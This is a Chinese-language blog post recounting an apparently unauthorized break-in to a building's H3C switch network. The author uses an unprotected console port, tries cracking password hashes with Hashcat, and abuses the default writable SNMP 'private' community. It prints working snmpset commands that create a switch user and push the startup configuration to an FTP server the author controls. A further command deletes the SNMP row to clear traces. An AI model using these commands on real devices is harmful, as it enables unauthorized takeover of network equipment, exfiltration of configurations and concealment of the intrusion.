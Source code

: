 ```yaml
---
title: SNMP is not only "Monitoring" Protocol - Exploiting H3C SNMP
date: 2024-11-25 14:04:08
tags: 网络, 网络安全
---
```


Simple Network *Management* Protocol 是一个用于网络监控和管理的协议. 对于不少人而言, 使用 Grafana 等软件配置 SNMP 监控可以对各种维护信息进行方便地可视化; 但是很多时候我们会忘记, SNMP 是用于 "管理" 的协议, 而不只是 "监控". 因此, 当我们打开 SNMP 时, 我们常常忽略可写的默认配置 (`private` community), 而这会带来灾难性的后果. 这篇博客记录了一次近源渗透的过程.

<!-- more -->

### 交换机在网络间, 网络间锁门, 所以交换机串口不用设密码

有句笑话, "内网安全全靠内网". 这句话在交换机管理口上似乎也适用. 起因是某一天, 我发现网络间的门是开着的, 遂跑进去看了一眼. 由于随身携带网串口线, 我就顺势接了进去. 你猜咋的, Console 口没有 Login 口令也没有 Enable 口令, 直接就是 manage 权限. 后来有位神人把他工位上的网口在网络间的那一端插到 Console 里面去了, 于是获取了 *"持久化"* 的管理权限, 还把旁边的口改成了 Trunk permit all.

### 管理 VLAN 暴露

我本来是懒得管这事的, 但是那位神人把自己的机器接进了管理 VLAN, 狠狠 nmap, 发现里面有不少 H3C 的设备, 应该是整栋楼的网都在里面了. 这下不得不玩一玩了.

我们首先分析了从串口拿到的配置文件, 试图从里面找到 SSH 登录的明文口令. 显然, 没有成功. 但也不是没有收获:

```cfg
local-user #redacted# class manage
 password hash $h$6$/g0pzMiowRibMf+V$gCebiPsmL+rx97v9AHzImTVu/dd5OvkUB2vzPqq9igyaeMeN9yi6b0ffhUyElujx4NF4t9eWn9nZ7zi6C/3rWw==
 service-type ssh
 authorization-attribute user-role network-admin
 authorization-attribute user-role network-operator
 password-control length 4
 undo password-control complexity user-name check
```

这里有密码 Hash, 我们尝试了爆破 ([`$h$6$` Hashcat](https://github.com/84634E1A607A/hashcat/tree/switch_6) ), 但是没有成功. (这告诉我们强密码还是很重要的) 虽然这里面有两个让人浮想联翩的指令 (最小密码长度为 4, 且允许密码中含有用户名), 但是爆破的结果确实不尽如人意.

后来发现 SNMP 开启, 故转而尝试攻击 SNMP.

```cfg
 snmp-agent
 snmp-agent local-engineid 800063A280542BDE8D70C200000001
 snmp-agent community write private
 snmp-agent community read public
 snmp-agent community read cipher $c$3$ljPpsn9d1TBzHoeOpGi1eYcWjfU1nQ==
 snmp-agent community write cipher $c$3$MfmpsSsRFIeSziIk4dkOYMkWuufIEB4=
 snmp-agent sys-info version v1 v2c 
 snmp-agent target-host trap address udp-domain 192.168.xxx.xxx params securityname public v2c
 snmp-agent target-host trap address udp-domain 192.168.xxx.xxx params securityname public v2c
 snmp-agent target-host trap address udp-domain 192.168.xxx.xxx params securityname xxx v2c
```

一开始我还尝试逆向 `$c$3$` crypto, 发现有亿点麻烦; 后来发现这个 `read public` 就是明文, 完全没必要去逆向这个 crypto. 再后来我就懒得管了, 停了不少时间.

### SNMP

这两天突然想起来, SNMP 除了这个只读的 `public` 之外, 还有一个可写的叫 `private` 的 community. 这就不得不试试能不能通过 SNMP 获得全部的权限了.

首先, SNMP 本身就能更改不少东西, 包括但不限于端口的开关, 通过的 VLAN, 等等. 可以说, 有 SNMP 写权限就已经有了 80% 的权限. 但是, 能不能通过 SNMP 拿到 SSH 权限呢?

为了搞清楚 SNMP 在干啥, 首先我们去 H3C 官网拿到 MIB 文件 `20210923_6181667_Comware_MIB-20210918_635750_30003_0` (我就不放上来了). 通过 `snmpwalk -v2c -c public xxx.xxx.xxx.xxx 1.` 等手段可以方便地拿到只读信息. 然后可以对我们感兴趣的部分做研究.

#### SSH?

H3C 对 SSH-MIB 的解释在 [这里](https://www.h3c.com/en/Support/Resource_Center/EN/Switches/Catalog/S9820/S9820/Technical_Documents/Reference_Guides/MIB_Companion/H3C_S9820_8C_MIB_Companion_Rele-17750/13/202403/2070882_294551_0.htm) (应该不会倒闭吧). 对 SSH 的攻击思路是: 新建一个 SSH 用户, 开启这个用户的公钥登录, 把自己的公钥设置进去, 登录; 或者新建一个 SSH 用户并新建一个本地用户, 设置本地用户的密码, 使用 SSH 密码登录.

非常可惜的是, 设置 SSH 公钥登录的逻辑是 新建公钥 -> 给公钥命名 -> 给 SSH 用户 Assign 这个名称. 而我没有找到如何使用 SNMP 创建公钥. 因此, 这条路倒闭了. (如果手头有一台设备, 或许可以对照一下试出来)

而设置密码登录需要新建本地用户. 理论上这个交换机里面已经有两个本地用户了, 但是我从 SNMP 的 USER 表里面读出来的个数是 0. 因此, SNMP 的 USER 表和交换机的 local user 似乎有一些区别. 在使用 [USER-MIB](https://www.h3c.com/en/Support/Resource_Center/HK/Routers/H3C_SR8800-F/H3C_SR8800-F/Technical_Documents/Reference_Guides/MIB_Companion/H3C_SR8800_F_Routers_MIB_R-13029/17/202308/1909461_294551_0.htm) 创建用户之后, SSH 也无法登陆.

这条路到这里似乎就寄了. 但是还是记录一下:

```sh
snmpset -v2c -c private 192.168.xxx.xxx HH3C-USER-MIB::hh3cUserName.1 string adnin HH3C-USER-MIB::hh3cUserInfoRowStatus.1 integer 4 HH3C-USER-MIB::hh3cUserPassword.1 string AdminADN1n HH3C-USER-MIB::hh3cAuthMode.1 integer 0
```

#### CFG?

后来我又翻到了这篇文档: [通过SNMP进行配置文件管理举例](https://www.h3c.com/cn/d_200906/636072_30003_0.htm#_Toc231200647)

也就是说, **SNMP 可以用于直接管理交换机的配置文件**. 对应 OID 位于 [HH3C-CONFIG-MAN-MIB::hh3cCfgOperateTable](https://www.h3c.com/cn/d_202202/1547434_30005_0.htm), 其中 `hh3cCfgOperateType` 可以管理交换机配置文件, 且参数可以是 `running2Startup(1) startup2Running(2) running2Net(3) net2Running(4) net2Startup(5) startup2Net(6) running2File(7) file2Running(8)`. 可以看到, 此表支持利用 FTP 把当前配置传到远程主机上, 也可以从远程主机下载配置.

需要注意的是, 此处会使用 FTP 的 ascii mode (这个狗屎玩意已经被很多 FTP 服务器弃用了, 需要在配置里面手动开启).

使用以下命令:

```sh
snmpset -v2c -c private 192.168.xxx.xxx HH3C-CONFIG-MAN-MIB::hh3cCfgOperateType.1 integer 6 \ # 6: startup2Net
HH3C-CONFIG-MAN-MIB::hh3cCfgOperateRowStatus.1 integer 4 \ # 4: createAndGo, 即创建后立即执行
HH3C-CONFIG-MAN-MIB::hh3cCfgOperateProtocol.1 integer 1 \ # 1: FTP
HH3C-CONFIG-MAN-MIB::hh3cCfgOperateFileName.1 string t/cfg \ # FTP 上传的位置
HH3C-CONFIG-MAN-MIB::hh3cCfgOperateServerAddress.1 a 192.168.xxx.yyy \ # FTP 服务器的地址
HH3C-CONFIG-MAN-MIB::hh3cCfgOperateUserName.1 string anonymous \ # FTP 用户
HH3C-CONFIG-MAN-MIB::hh3cCfgOperateUserPassword.1 string anonymous \ # FTP 密码
HH3C-CONFIG-MAN-MIB::hh3cCfgOperateServerPort.1 integer 21 \ # FTP 端口
HH3C-CONFIG-MAN-MIB::hh3cCfgOperateSrvAddrType.1 integer 1 # 1: ipv4
```

在 FTP 服务器配置正确的情况下, 就可以拿到交换机的配置文件了. (怎么改就不用说了吧) 然后记得删掉这一行, 清除痕迹 (不过会有 Log 记录下来)

```sh
snmpset -v2c -c private 192.168.xxx.xxx HH3C-CONFIG-MAN-MIB::hh3cCfgOperateRowStatus.1 integer 6
```

至此, 这整个管理网就算烂完了. 不过在搞完之后发现由于没有配 ACL, 以业务网的交换机地址为网关可以直接访问管理网...... 所以好像也没什么问题......
